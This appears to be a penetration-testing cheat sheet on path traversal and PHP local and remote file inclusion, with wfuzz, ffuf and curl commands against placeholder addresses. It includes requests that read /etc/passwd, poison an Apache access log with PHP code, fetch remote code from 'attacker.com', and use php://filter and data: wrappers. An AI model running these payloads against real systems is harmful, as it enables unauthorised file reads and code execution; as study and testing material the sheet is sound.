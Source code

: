 # Traversal/File Inclusion

## Things to remember
  *  Traversal allows for arbitrary file read
  *  File inclusion uses the backend language to execute arbitrary code
      *  Syntax for LFI/RFI will depend on the backend language
      *  As always, enumerate the web stack thoroughly
  *  Most examples of file inclusion are PHP applications
  *  PayloadsAllTheThings has a page covering various [bypass and RCE techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)

## Useful tools
  *  [`wfuzz`](https://www.kali.org/tools/wfuzz/) and and [`ffuf`](https://github.com/ffuf/ffuf) for manually fuzzing web app inputs for traversal/inclusion
  *  [`seclists`](https://github.com/danielmiessler/SecLists) for traversal/inclusion fuzzing lists
  *  [`curl`](https://curl.se/) for traversal/inclusion one-liners

## Fuzzing for traversal/file inclusion
  *  `wfuzz` for traversal/file inclusion fuzzing
      *  Fuzz more than just parameters! Cookies, headers, etc.
  *  Carefully parse HTTP POST requests before using `wfuzz`
      *  Be specific with things like cookies, headers, URL structure, etc.
      *  Failing to provide these values can produce ineffective requests
  *  `ffuf` can parse requests from text files
      *  Easier handling of more complex POST requests
      *  No recursive grep, consider `Burp Intruder` in these cases

```
wfuzz -w /path/to/traversal.txt -b 'exampleCookie=cookieValue' 'http://10.0.0.1/traversal?param=FUZZ'
wfuzz -w /path/to/inclusion.txt -H 'exampleHeader: headerValue' -d 'param=FUZZ' 'http://10.0.0.1/inclusion'
```

```
ffuf -request req.txt --request-proto http -w /path/to/inclusion.txt -v
```

## Exploiting path traversal
  *  Consider targeting world-readable files to confirm traversal
      *  `apparmor`, blacklists, etc. interfere with these tests
  *  Path traversal provides arbitrary file read
      *  Gather internal info such as OS/kernel version, network config, users, etc.
      *  Configuration and source code files can be juicy
  *  Files related to the vulnerable service are likely close to the current working directory
      *  Research sensitive file locations of known running services/software
      *  Increment upwards traversal until a hit or unreasonable length

```
/etc/passwd
C:\windows\system32\drivers\etc\hosts
C:/windows/system32/drivers/etc/hosts
```

```
curl -b 'exampleCookie=cookieValue' 'http://10.0.0.1/traversal?page=/etc/passwd'
curl -k -X 'POST' -H 'exampleHeader: headerValue' -d 'page=/etc/passwd' 'https://10.0.0.1/traversal'
```

## Exploiting file inclusion
  *  File inclusion provides arbitrary code execution AND file read
      *  Enumerate web stack and research backend language for syntax
  *  Any means of modifying filesystem contents could escalate to RCE
      *  Log files are easily modified by interacting with the web service
      *  Research OS/web server version for potential log file locations
      *  Double quotes (`"`) may be automatically escaped in log files causing syntax errors
  *  Remote file inclusion coerces the backend to fetch code from a remote source

```
curl -A '<?php phpinfo(); ?>' 'http://10.0.0.1'
curl -b 'exampleCookie=cookieValue' 'http://10.0.0.1/inclusion?page=/var/log/apache2/access.log'
curl -k -X 'POST' -H 'exampleHeader: headerValue' -d 'page=http://attacker.com/rfi.php' 'https://10.0.0.1/remoteinclusion'
```

## PHP specific techniques
  *  PHP version `5.3 and lower` [terminates strings at any null byte](https://www.php.net/manual/en/security.filesystem.nullbytes.php)
      *  `%00` can be used to truncate the end of any supplied string
  *  [PHP wrappers](https://www.php.net/manual/en/wrappers.php) can be leveraged to make file inclusion easier
      *  [`base64-encode`](https://www.php.net/manual/en/filters.convert.php) and [`data`](https://www.php.net/manual/en/wrappers.data.php) wrappers are particularly useful
      *  More wrappers covered in [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md) and [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

```
php://filter/convert.base64-encode/resource=example.php
data:text/plain,<?php phpinfo(); ?>
```
